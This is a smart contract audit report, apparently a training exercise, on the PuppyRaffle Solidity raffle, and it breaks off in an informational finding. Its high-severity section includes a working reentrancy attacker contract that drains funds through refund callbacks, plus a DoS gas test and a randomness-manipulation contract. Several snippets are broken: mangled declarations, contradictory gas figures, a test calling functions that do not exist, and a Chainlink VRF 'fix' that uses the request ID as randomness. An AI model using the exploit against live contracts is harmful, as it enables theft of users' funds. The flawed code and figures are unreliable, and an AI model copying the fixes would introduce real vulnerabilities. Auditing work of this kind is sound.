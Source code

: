 <!-- ---
title: Protocol Audit Report
author: Anselmo Ramon Sanchez Titla
data: February 22, 2025
# header-includes:
#   - \usepackage{titling}
#   - \usepackage{graphicx}
--- -->

<head>
  <title>Puppy Raffle Report</title>
</head>

<div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  <img src="./logo.png" alt="Local Image">
  <p align="center">
    Prepared by: <a href="https://linkedin.com/in/anselmotitla">Anselmo Ramon Sanchez Titla</a>
  </p>
</div>


<!-- Your report starts here! -->

<!-- Lead Auditors:
- xxxxxxx -->

<!-- Use ctrl + shift + p => Markdown All in One: Create Table of Contents -->

<!-- <div style="page-break-before: always;"></div> -->


# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Reentrancy vulnerability in `PuppyRaffle::enterRaffle` allows attacker to drain funds](#h-1-reentrancy-vulnerability-in-puppyraffleenterraffle-allows-attacker-to-drain-funds)
    - [\[H-2\] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack, incrementing gas cost for future entrants.](#h-2-looping-through-players-array-to-check-for-duplicates-in-puppyraffleenterraffle-is-a-potential-denial-of-service-dos-attack-incrementing-gas-cost-for-future-entrants)
    - [\[H-3\] Weak Randomness in `PuppyRaffle::selectWinner` exposes the contract to predictability and manipulation](#h-3-weak-randomness-in-puppyraffleselectwinner-exposes-the-contract-to-predictability-and-manipulation)
    - [\[H-4\] Mishandling ETH Withdrawals in `PuppyRaffle::withdrawFees` (Incorrect balance check and risks with `selfdestruct`)](#h-4-mishandling-eth-withdrawals-in-puppyrafflewithdrawfees-incorrect-balance-check-and-risks-with-selfdestruct)
  - [Medium](#medium)
    - [\[M-1\] Overflow and Unsafe Cast Vulnerability in `PuppyRaffle::selectWinner` When Updating `totalFees`](#m-1-overflow-and-unsafe-cast-vulnerability-in-puppyraffleselectwinner-when-updating-totalfees)
  - [Low](#low)
    - [\[L-1\] Incorrect behavior of `PuppyRaffle::getActivePlayerIndex` could mislead users about their raffle status](#l-1-incorrect-behavior-of-puppyrafflegetactiveplayerindex-could-mislead-users-about-their-raffle-status)
  - [Informational](#informational)
    - [\[I-1\] Use of Floating Pragma Version in `PuppyRaffle.sol` May Lead to Compatibility Issues and Inconsistent Behavior](#i-1-use-of-floating-pragma-version-in-puppyrafflesol-may-lead-to-compatibility-issues-and-inconsistent-behavior)
    - [\[I-2\] Use of outdated Solidity version `^0.7.6` in `PuppyRaffle.sol` contract](#i-2-use-of-outdated-solidity-version-076-in-puppyrafflesol-contract)
    - [\[I-3\] Constructor in `PuppyRaffle::constructor` does not validate the zero address for `PuppyRaffle::feeAddress`](#i-3-constructor-in-puppyraffleconstructor-does-not-validate-the-zero-address-for-puppyrafflefeeaddress)
    - [\[I-4\] Use of non-CEI pattern in `PuppyRaffle::selectWinner` introduces potential reentrancy vulnerability](#i-4-use-of-non-cei-pattern-in-puppyraffleselectwinner-introduces-potential-reentrancy-vulnerability)
    - [\[I-5\] Use of Magic Numbers in `PuppyRaffle::selectWinner` function makes the contract less maintainable and introduces potential for errors.](#i-5-use-of-magic-numbers-in-puppyraffleselectwinner-function-makes-the-contract-less-maintainable-and-introduces-potential-for-errors)
  - [Gas](#gas)
    - [\[G-1\] Gas Optimization: `PuppyRaffle::raffleDuration` Should Be Immutable](#g-1-gas-optimization-puppyraffleraffleduration-should-be-immutable)
    - [\[G-2\] Use of non-constant state variables for URIs in `PuppyRaffle` contract can lead to inefficient gas consumption](#g-2-use-of-non-constant-state-variables-for-uris-in-puppyraffle-contract-can-lead-to-inefficient-gas-consumption)
    - [\[G-3\] Gas inefficiency due to accessing `PuppyRaffle::players.length` multiple times in a loop](#g-3-gas-inefficiency-due-to-accessing-puppyraffleplayerslength-multiple-times-in-a-loop)

# Protocol Summary

<!-- You can get this info from the README.md of the repository that is being in the proccess of security review research, almost at the beggining of the file .md-->

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the `enterRaffle` function with the following parameters:
   1. `address[] participants`: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & `value` if they call the `refund` function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the `value`, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The Anselmo Ramon Sanchez Titla team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

**The findings described in this document correspond to the following commit hash:**

<!-- You can get this info from the README.md at the # Audit Scope Details -->

- Commit Hash: 0804be9b0fd17db9e2953e27e9de46585be870cf

## Scope

<!-- You can get this info from the README.md -->

```
./src/
└── PuppyRaffle.sol
```

## Roles

<!-- You can get this info from the README.md -->

- ` Owner`` - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the  `changeFeeAddress` function.
- `Player` - Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.

# Executive Summary

<!-- _Add some notes about how the audit went, types of things you found, etc._ -->

<!-- _We spent X hours with Z auditors using Y tools. etc_ -->

We spent 50 hours with 3 auditors using manual review, aderyn, slither finding the below vulnerabilities classified from high to informational

## Issues found

<!-- To format the below table -->
<!-- ctrl + shift + p: Format Document  or  shift + alt + f -->

| Severity      | Number of issues found |
| ------------- | ---------------------- |
| High          | 4                      |
| Medium        | 1                      |
| Low           | 1                      |
| Infomartional | 5                      |
| total         | 11                     |

# Findings

## High

### [H-1] Reentrancy vulnerability in `PuppyRaffle::enterRaffle` allows attacker to drain funds

**Description:**  
The `PuppyRaffle::enterRaffle` function is vulnerable to reentrancy attacks. An attacker can exploit this vulnerability by calling the `PuppyRaffle::enterRaffle` function multiple times within a single transaction, causing the contract to recursively call back into itself before the initial call is completed. This allows the attacker to manipulate the contract’s state and potentially withdraw funds more than once, draining the contract's balance. The contract does not have adequate protection against reentrancy, particularly within the refund mechanism.

**Impact:**  
An attacker can use this vulnerability to repeatedly call the `refund` function and drain the contract of its funds. This would allow the attacker to bypass the expected behavior of the contract, leading to loss of funds for the legitimate participants. Moreover, this attack could discourage users from participating in the raffle, as the integrity of the contract is compromised.

**Proof of Concept:**  
The vulnerability can be demonstrated through the following test and contract implementation, which exploits the reentrancy flaw by repeatedly calling the `refund` function.

```solidity
// Part of test for reentrancy attack
function test_reentrancyRefund() public {
    address ;
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attackUser = makeAddr("attackUser");
    vm.deal(attackUser, 1 ether); // to give attackUser some money

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingContractBalance = address(puppyRaffle).balance;

    // Attack
    vm.prank(attackUser);
    attackerContract.attack{value: entranceFee}();

    console.log("starting attacker contract balance: ", startingAttackContractBalance);
    console.log("starting contract balance: ", startingContractBalance);

    console.log("ending attacker contract balance: ", address(attackerContract).balance);
    console.log("ending contract balance: ", address(puppyRaffle).balance);
}
```

```solidity
// ReentrancyAttacker contract that exploits the vulnerability
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address ;
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance < entranceFee) return;
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```

**Recommended Mitigation:**

To mitigate the reentrancy vulnerability, consider the following approaches:

**Use the "checks-effects-interactions" pattern:**  
 This pattern ensures that all checks and state updates (effects) are performed before making any external calls (such as transferring funds). This prevents an attacker from re-entering the contract during an external call. Ensure that the state is updated before transferring funds to external addresses.

**Add a reentrancy guard modifier:**

Use a reentrancy guard to prevent recursive calls into the contract. You can use OpenZeppelin's `ReentrancyGuard` modifier to prevent reentrancy attacks.

Example:

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract PuppyRaffle is ReentrancyGuard {
    function refund(uint256 playerIndex) public nonReentrant {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);
        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
}
```

**Alternatively:**

```diff

    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

-      payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);

+      payable(msg.sender).sendValue(entranceFee);
    }
```

### [H-2] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack, incrementing gas cost for future entrants.

```shell

Please comment this shell block, this won't be part of the report, it is just to help us figure out the severity [S-#]

### [S-#]

IMPACT: MEDIUM
LIKELIHOOD: MEDIUM (since it will cost a lot to an attacker to do this)

So for us [S-#] = [M-#], we will figure the number # later
```

**Description** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas cost for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `PuppyRaffle::players` array, is an additional check the loop will have to make.

```javascript
        // Check for duplicates
        // @audit DoS attack
@>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of the raffle to be one of the first entrants in the queue.

An attacker might fill the raffle `PuppyRaffle::players` array so big, that no one else enters, guaranteeing themselves the win

**Proof of concept**

If we have two sets of 100 players enter, the gas cost will be as such:

- 1st 100 players: ~6503275 gas
- 2nd 1500 players: ~1057057316 gas

This is more than 3x more expensive for the second 100 players.

/_ In the private audit maybe don't put the code directly into the findings report but in a competive audit you definitively put this in _/

<details>
<summary>PoC</summary>

Place the following test into `PuppyRaffleTest.t.sol`

```javascript
    function testDoS() public {
        vm.txGasPrice(1);
        address[] memory players = new address[](100);

        for (uint i=0; i<100; i++){
            players[i] = address(i);
        }

        uint gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(players);

        uint gasEnd = gasleft();
        uint gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of first 100 players: ", gasUsedFirst);

        uint nextNumPlayers = 1490;
        address[] memory players2 = new address[](nextNumPlayers);
        for (uint i = 100; i<nextNumPlayers + 100; i++){
            players2[i-100] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee*players2.length}(players2);

        uint gasEnd2 = gasleft();
        // vm.expectRevert("")
        uint gasUsedSecond = (gasStart - gasEnd2) * tx.gasprice;
        console.log("Gas cost of rest of players: ", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);
    }

```

</details>

**Recommended Mitigation** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyway, so a duplicate check doesn't prevent same person from entering multiple times, only the same wallet address.
2. Consider a mapping to check for dupplicates. This would allow constant time lookup whether a user has already entered. You could have each raffle have a `uint256` id and the mapping would be a `raffleId` and a `player address` mapped to `true` or `false`.

```diff

+   uint256 public raffleId;   // This will be incremented for next raffle in selectWinner()
+   mapping(uint256 => mapping(address => bool)) public isParticipant;

      .
      .
      .

    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            require(!isParticipant[raffleId][newPlayers[i]], "PuppyRaffle: Duplicate player");      /*+++ new line +++*/
+            isParticipant[raffleId][newPlayers[i]] = true;                                          /*+++ new line +++*/
        }

        // Check for duplicates
-        for (uint256 i = 0; i < players.length - 1; i++) {                              /*+++ drop this line +++*/
-            for (uint256 j = i + 1; j < players.length; j++) {                          /*+++ drop this line +++*/
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");     /*+++ drop this line +++*/
-            }                                                                           /*+++ drop this line +++*/
-        }                                                                               /*+++ drop this line +++*/
        emit RaffleEnter(newPlayers);
    }

    function selectWinner() external {

      .
      .
      .

      delete players;
+     raffleId += 1; // incrementing for the next raffle
      raffleStartTime = block.timestamp;

      .
      .
      .

    }
```

Alternatively, you could use [OpenZeppelin's `EnumerableSet` library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet).

### [H-3] Weak Randomness in `PuppyRaffle::selectWinner` exposes the contract to predictability and manipulation

**Description:**  
The `PuppyRaffle::selectWinner` function uses predictable values such as `block.timestamp` and `block.difficulty` along with the `keccak256` hash function to generate a winner index and determine token rarity. This approach for generating randomness is weak and easily manipulable. As the values used for randomness, such as the block timestamp and difficulty, are publicly accessible, an attacker can predict the outcome of the raffle, allowing them to influence or control the winner selection process. This compromises the integrity and fairness of the raffle.

**Impact:**  
By using weak randomness in the form of predictable values, an attacker can potentially manipulate the raffle outcome, ensuring they win or influence the result. This exposes the contract to manipulation, leading to unfair results and loss of trust from participants. The fairness of the raffle is significantly undermined, and it becomes vulnerable to front-running attacks where an attacker can predict the winner and enter the raffle at the optimal time. Furthermore, the predictability of the randomness can be exploited by anyone with knowledge of the block properties, which severely compromises the security and credibility of the contract.

**Proof of Concept:**  
To demonstrate the weakness of the randomness mechanism, consider the following snippet:

```solidity
uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
```

The values of block.timestamp and block.difficulty are both publicly accessible and predictable. An attacker can simulate the keccak256 hash computation using known block values to predict the winner of the raffle, thus exploiting the vulnerability.

For example, an attacker can calculate the winning index in advance, enter the raffle at the right moment, and win the prize by matching the predicted winner index. Furthermore, the attacker could also predict the rarity of the token assigned to the winner, thus increasing their chances of acquiring a high-value item.

```solidity
contract ManipulateRaffle {
    PuppyRaffle public puppyRaffle;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
    }

    // Predict and manipulate the randomness
    function attack() public {
        uint256 predictedWinnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % puppyRaffle.players.length;
        // Now enter the raffle and guarantee winning
        puppyRaffle.selectWinner();
    }
}
```

This example demonstrates how an attacker can manipulate the selectWinner function by calculating the winner index based on predictable block properties.

**Recommended Mitigation:**

1. **Use a secure randomness source like Chainlink VRF:**  
   To prevent manipulation and ensure truly random outcomes, the contract should integrate a secure and verifiable randomness source, such as Chainlink's Verifiable Random Function (VRF). This will provide cryptographically secure randomness, ensuring the integrity of the raffle process.

   Example of integration with Chainlink VRF:

   ```solidity
   import "@chainlink/contracts/src/v0.8/interfaces/VRFCoordinatorV2Interface.sol";
   import "@chainlink/contracts/src/v0.8/VRFConsumerBaseV2.sol";

   contract PuppyRaffle is VRFConsumerBaseV2 {
       VRFCoordinatorV2Interface COORDINATOR;

       // Chainlink VRF parameters
       bytes32 keyHash;
       uint64 subscriptionId;

       constructor(address _vrfCoordinator, bytes32 _keyHash, uint64 _subscriptionId) VRFConsumerBaseV2(_vrfCoordinator) {
           COORDINATOR = VRFCoordinatorV2Interface(_vrfCoordinator);
           keyHash = _keyHash;
           subscriptionId = _subscriptionId;
       }

       function selectWinner() external {
           // Request random number from Chainlink VRF
           uint256 requestId = COORDINATOR.requestRandomWords(keyHash, subscriptionId, 3, 200000, 1);
           // Use the random number returned from Chainlink VRF to select the winner
           uint256 winnerIndex = requestId % players.length;
           address winner = players[winnerIndex];
           // Continue with winner selection and prize distribution...
       }
   }
   ```

2. Avoid using block properties for randomness:
   As mentioned, values like block.timestamp and block.difficulty should not be used for generating randomness. These values are predictable and can be manipulated by miners. Using Chainlink VRF or another secure oracle is the best practice to ensure the randomness is cryptographically secure and not subject to manipulation.

3. Implement additional checks for randomness verification:
   If a secure randomness oracle is not feasible for the contract, consider implementing additional checks or randomness verification mechanisms to mitigate the risk of predictable outcomes. However, using Chainlink VRF remains the most secure and robust solution to ensure fairness in lotteries or raffles.

### [H-4] Mishandling ETH Withdrawals in `PuppyRaffle::withdrawFees` (Incorrect balance check and risks with `selfdestruct`)

**Description:**

The `PuppyRaffle::withdrawFees` function contains a crucial issue when verifying the contract's balance before performing a fee withdrawal. It checks that the contract’s balance is equal to `totalFees` using `address(this).balance == uint256(totalFees)`, which assumes that the contract's balance exactly matches the fees set aside for withdrawal. This check does not account for other dynamic factors such as transaction fees, funds temporarily held in the contract, or potential changes in the balance during the transaction execution.

Furthermore, the function uses the `call{value: feesToWithdraw}("")` method to send ETH to a specified address, which could introduce additional risks if not properly managed. The potential interaction with `selfdestruct` can also pose security concerns, as the contract balance could be emptied unexpectedly, leading to a loss of funds.

**Impact:**

This vulnerability creates several potential risks:

- **Inconsistent state**: If the contract balance does not match `totalFees` at the time of the check, the withdrawal will fail, even if there are enough funds to cover the withdrawal.
- **Unintended behavior**: The `call` method is unsafe when not properly checked for success, especially if the recipient address is a contract that could revert or cause a chain reaction of failures.
- **Selfdestruct risk**: The contract's funds may be emptied due to interactions with `selfdestruct`, allowing an attacker to drain funds unintentionally or maliciously.
- **Loss of user funds**: If multiple withdrawals are attempted or if the contract's state is inconsistent, users may not be able to retrieve their fees, causing loss of trust in the contract.

**Proof of Concept:**

The vulnerability can be demonstrated as follows:

1. Deploy the `PuppyRaffle` contract with some players entering the raffle and accumulating fees.
2. Call `PuppyRaffle::withdrawFees` when the contract’s balance differs from `totalFees`. If the balance is slightly off (e.g., due to transaction fees or other factors), the transaction will fail due to the `require(address(this).balance == uint256(totalFees))` condition.
3. If the contract uses `selfdestruct`, the balance can be drained, leading to a loss of funds.
4. Any attempt to withdraw after this failure will either cause a revert or leave the contract in an inconsistent state.

**Recommended Mitigation:**

To mitigate the risks associated with the `PuppyRaffle::withdrawFees` function, consider the following approaches:

1. **Improve balance check**: Instead of directly comparing `address(this).balance` with `totalFees`, allow a small tolerance or check for sufficient funds (e.g., `address(this).balance >= uint256(totalFees)`). This accounts for slight discrepancies between the contract's balance and the expected `totalFees`.

2. **Safeguard against `selfdestruct`**: Implement additional safeguards that prevent the contract from being selfdestructed or drained unexpectedly. For example, a modifier that ensures certain conditions are met before allowing destructive actions could help.

3. **Reentrancy protection**: Consider using the `ReentrancyGuard` from OpenZeppelin’s `ReentrancyGuard` contract to prevent reentrancy attacks during fee withdrawal operations.

By implementing these recommendations, the security and reliability of the fee withdrawal function can be greatly improved, reducing the risk of loss of funds or contract failures.

## Medium

### [M-1] Overflow and Unsafe Cast Vulnerability in `PuppyRaffle::selectWinner` When Updating `totalFees`

**Description:**  
The `PuppyRaffle::selectWinner` function contains a critical vulnerability in the line where it updates `totalFees`:

```solidity
totalFees = totalFees + uint64(fee);
```

Here, the `fee` is a `uint256` value, but it is cast to `uint64` before being added to `totalFees`. This is an unsafe cast, as the value of `fee` may exceed the maximum value allowed for a `uint64`, which is `18,446,744,073,709,551,615`. If the `fee` exceeds this limit, it will overflow, causing incorrect calculations for `totalFees` and other related variables.

Additionally, if the contract collects a large amount of fees (e.g., 20 ETH worth of fees), the cast to `uint64` will lose precision and may lead to undesired behavior in the prize distribution and overall contract logic.

**Impact:**

The overflow and unsafe cast to `uint64` pose significant risks to the integrity of the raffle system. If the value of `fee` exceeds the `uint64` limit, it can cause an overflow, resulting in incorrect values for `totalFees` and other variables dependent on it. This vulnerability can allow attackers to manipulate the prize pool distribution, potentially stealing funds or causing the raffle to behave unpredictably.

In the worst case, this could result in the manipulation of the prize distribution, loss of funds, and unfair outcomes, thus undermining trust in the contract and its integrity.

**Proof of Concept:**  
The vulnerability manifests when the `fee` value exceeds the `uint64` range during the addition to `totalFees`. For instance, if the contract collects a large fee (e.g., 20 ETH worth of fees), this value may exceed the maximum value allowed for a `uint64` variable, causing the addition operation to result in an overflow. This results in an incorrect value for `totalFees` and impacts the subsequent prize distribution.

To demonstrate this, consider a scenario where the fee is large enough to cause an overflow:

1. The `fee` value is a `uint256` that exceeds `18,446,744,073,709,551,615`.
2. When the `fee` is cast to `uint64`, it wraps around to a smaller value due to the overflow.
3. The overflow causes `totalFees` to have an incorrect value, which affects subsequent calculations for the prize pool and prize distribution.

For example, if `fee = 20 ETH` (a large value) and `totalFees = 18,446,744,073,709,551,615` (maximum `uint64` value), the addition would overflow and cause `totalFees` to revert to a very small number or incorrect value.

**Recommended Mitigation:**

1. **Use Larger Data Types for `totalFees` and `fee`:**  
   To mitigate the overflow and casting issue, both `totalFees` and `fee` should be stored as `uint256` rather than `uint64`. This ensures that large values for `fee` can be safely handled without causing an overflow. The updated code would be:

```solidity
   totalFees = totalFees + fee;
```

## Low

### [L-1] Incorrect behavior of `PuppyRaffle::getActivePlayerIndex` could mislead users about their raffle status

**Description:**  
The `PuppyRaffle::getActivePlayerIndex` function is intended to return the index of an active player in the raffle. However, the implementation contains a flaw in that if a player is the first in the `PuppyRaffle::players` array (at index 0), the function will return 0 as the index, even if they are inactive. Additionally, if a player is inactive and not present in the `PuppyRaffle::players` array, the function will also return 0, which could mislead the player into thinking they are active when they are not.

**Impact:**  
This behavior could lead to confusion and frustration for users. For instance, a player who is inactive but happens to be at index 0 might mistakenly believe they are active, while a player who is genuinely inactive might incorrectly assume they are still part of the raffle. This could potentially result in players acting on incorrect assumptions about their participation status and impact their decision-making. Furthermore, this misrepresentation could be exploited by an attacker to manipulate the raffle or deceive other participants.

**Proof of Concept:**  
The following example demonstrates how the `PuppyRaffle::getActivePlayerIndex` function could lead to confusion, especially for the first player in the `players` array.

```solidity
// Example test case to demonstrate the issue
function test_getActivePlayerIndex() public {
    address playerOne = makeAddr("playerOne");
    address playerTwo = makeAddr("playerTwo");

    // Add two players to the raffle
    puppyRaffle.enterRaffle{value: entranceFee}(playerOne);
    puppyRaffle.enterRaffle{value: entranceFee}(playerTwo);

    // Mark playerOne as inactive (or removed)
    puppyRaffle.removePlayer(playerOne);

    // Call getActivePlayerIndex for both players
    uint256 indexPlayerOne = puppyRaffle.getActivePlayerIndex(playerOne);
    uint256 indexPlayerTwo = puppyRaffle.getActivePlayerIndex(playerTwo);

    console.log("Player One Index: ", indexPlayerOne); // Expected: 0 (but should ideally be an error or revert)
    console.log("Player Two Index: ", indexPlayerTwo); // Expected: 1
}
```

This test case shows that even if `playerOne` is removed from the raffle, the function still returns 0 as the index, making the player believe they are still active. However, the playerTwo index is returned correctly.

**Recommended Mitigation:**

To resolve this issue, the following mitigations should be considered:

1. **Return a proper indication for inactive players:**  
   If the player is not active or removed, `PuppyRaffle::getActivePlayerIndex` should return a value that clearly indicates this, such as reverting the transaction or returning a special value (like `uint256(-1)` or another predefined value). This ensures that the player can distinguish between being an active participant and being inactive.

   Updated implementation for `getActivePlayerIndex`:

   ```solidity
   function getActivePlayerIndex(address player) external view returns (uint256) {
       for (uint256 i = 0; i < players.length; i++) {
           if (players[i] == player) {
               // If the player is inactive, return a value indicating they are not active
               if (playerStatus[player] == false) {
                   return uint256(-1); // Or revert with a custom error
               }
               return i;
           }
       }
       // Return a clear indication that the player is not found or inactive
       return uint256(-1); // Or revert with a custom error
   }

   ```

2. **Ensure clear status checking:**

   Implement a function or status that can be used to confirm whether a player is active. This will provide clarity to both the contract and users.

   ```solidity
   mapping(address => bool) public playerStatus;

   function isPlayerActive(address player) public view returns (bool) {
       return playerStatus[player];
   }

   ```

## Informational

### [I-1] Use of Floating Pragma Version in `PuppyRaffle.sol` May Lead to Compatibility Issues and Inconsistent Behavior

**Description:**  
The Solidity version `pragma solidity ^0.7.6;` in the `PuppyRaffle.sol` contract is a floating version specifier. This means the contract can be compiled with any version of Solidity that is compatible with `0.7.6`, including future minor and patch versions. While this may seem convenient, it poses significant risks because future Solidity versions could introduce breaking changes or optimizations that may not be compatible with the contract's code.

Using a floating version specifier, such as `^0.7.6`, can lead to inconsistencies, as new versions of the Solidity compiler might change certain behaviors, introduce unexpected bugs, or even compromise security. For example, newer compiler versions may implement optimizations or bug fixes that could unintentionally affect the contract's logic or gas consumption, causing it to behave unpredictably.

**Impact:**  
The main issue with using a floating pragma version is that it introduces a potential lack of control over which compiler version is used to compile the contract. This can lead to the following negative consequences:

1. **Inconsistent Behavior:** Changes in future versions of Solidity may alter how certain functions or features are handled. This could lead to the contract behaving differently, especially in edge cases, without any changes being made to the contract's source code.
2. **Security Risks:** Future versions of Solidity could include optimizations or changes to the compiler that may introduce vulnerabilities or unintended side effects in the contract, especially if the contract relies on specific behavior that has been altered.

3. **Maintenance Challenges:** By not locking the Solidity version, the contract may become difficult to maintain and test, as developers may not be able to guarantee the same behavior across different compiler versions. This could result in issues when updating the contract or attempting to integrate it with other contracts that rely on a fixed Solidity version.

4. **Potential Deployment Failures:** If a new version of Solidity is released that is incompatible with the contract, it may fail to compile or deploy correctly. This could cause significant delays in deployment or require extensive refactoring of the contract.

**Proof of Concept:**  
Here is the specific instance found in the `PuppyRaffle.sol` contract:

```solidity
pragma solidity ^0.7.6;
```

By using the floating version `^0.7.6`, the contract can be compiled with versions ranging from `0.7.6` to any future minor or patch version below `0.8.0`. While this might seem convenient, it introduces the risk of breaking changes with each new compiler release. For example, if a future version of Solidity introduces a bug or optimization that changes the way certain operations are performed, this could affect the contract without any indication in the source code.

**Recommended Mitigation:**

To avoid the risks associated with using a floating version specifier, it is recommended to use a specific version of Solidity. Here are some mitigation strategies:

1. **Use a Specific Solidity Version:**  
    Instead of using a floating version like `^0.7.6`, specify the exact version of Solidity that the contract should be compiled with. For example, use:

   ```solidity
   pragma solidity 0.7.6;
   ```

   This ensures that the contract is only compiled with that specific version, reducing the risk of unexpected behavior or vulnerabilities introduced by future compiler releases.

2. **Regular Audits and Updates:**
   Regularly audit the contract to ensure compatibility with the latest Solidity versions. If necessary, update the contract to be compatible with new versions, but always lock to the exact version to avoid unexpected changes.

3. **Testing and Compatibility Checks:**
   Before deploying with a new version of Solidity, ensure thorough testing on testnets to confirm that the contract functions as expected with the updated compiler version.

### [I-2] Use of outdated Solidity version `^0.7.6` in `PuppyRaffle.sol` contract

**Description:**  
The `PuppyRaffle.sol` contract uses the floating version specifier `^0.7.6` for Solidity, which allows the contract to be compiled with versions from `0.7.6` up to, but not including, `0.8.0`. While this seems convenient, it introduces the risk of unexpected changes as new Solidity versions are released.

By using `^0.7.6`, the contract may compile successfully with newer Solidity versions that could include breaking changes or optimizations, potentially affecting the contract’s functionality or security. This can lead to unpredictable behavior, making the contract harder to audit and maintain.

**Impact:**  
Using an outdated version of Solidity, such as `^0.7.6`, poses several risks to the stability and security of the contract. With every new release, Solidity introduces important optimizations, new features, and critical bug fixes. By relying on an outdated compiler version, the contract is missing out on the benefits of these improvements, potentially compromising its performance and security.

Some of the key advantages of upgrading to a more recent stable version, such as `0.8.10` or above, include:

1. **Enhanced Security**: Newer versions of Solidity come with important security patches and fixes for vulnerabilities that may exist in older versions. For example, the `0.8.x` series introduced a range of improvements related to gas optimizations, overflow checks, and more robust error handling.

2. **Improved Gas Efficiency**: Later versions of Solidity contain optimizations that make contract execution more gas-efficient. This means lower transaction costs and reduced risk of running into gas limit issues, especially important for complex smart contracts like raffles or games that may have a large number of participants.

3. **Increased Support for Modern Features**: Newer versions of Solidity provide support for more modern programming features and better language features. This includes improvements in handling of errors, better introspection of contract state, and tools like `custom errors` to save gas.

4. **Compiler Warnings and Error Messages**: Recent Solidity versions often have more helpful and precise warnings and error messages that can aid developers in spotting potential bugs or incorrect patterns in their contracts. This improves the overall reliability of the contract during development.

5. **Long-Term Maintenance**: Relying on a stable, recent version of Solidity ensures that the contract will be compatible with future updates in the ecosystem, minimizing the risk of having to deal with sudden breaking changes in the future. It also ensures that the contract can be more easily maintained and upgraded, as newer versions of Solidity provide better backward compatibility with tooling.

By using a recent stable version, developers can ensure that their contract is not only more secure and efficient but also easier to maintain and scale as the Solidity language and Ethereum ecosystem continue to evolve. Using an outdated version like `0.7.6` introduces unnecessary risks and limits the contract’s potential.

**Proof of Concept:**  
The specific issue is found in the `PuppyRaffle.sol` contract at line 2, where the floating version `^0.7.6` is used:

```solidity
